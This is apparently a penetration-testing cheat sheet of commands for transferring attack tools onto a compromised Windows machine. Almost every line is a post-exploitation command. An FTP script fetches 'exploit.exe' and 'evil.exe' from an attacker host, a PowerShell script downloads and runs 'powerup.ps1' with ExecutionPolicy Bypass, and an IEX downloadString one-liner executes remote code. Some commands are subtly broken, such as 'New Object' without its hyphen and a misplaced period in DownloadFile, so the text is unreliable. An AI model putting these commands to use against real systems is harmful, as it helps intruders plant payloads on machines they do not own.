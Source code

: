 # TFTP

- to be continued

# Bitsadmin (cmd needs admin permission)
- Bitsadmin /transfer n http://url saved_path

# FTP (pyftpdlib client on Kali)

- Ftp is generally installed on Windows machines
- To make it interactive, use -s option

## On Kali install a ftp client and set a username/password

```
python3 -m pip install pyftpdlib  
python3 -m pyftpdlib -p 21 -u root(username) -P root(pass) -d path(current dir by default)
```

## on Windows

```
ftp <attackerip>
> binary
> lcd
> get exploit.exe
```


### On Windows

```
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```


# Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Powershell download a file

```
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://<targetip>/file.ps1'.'savedpath')
```
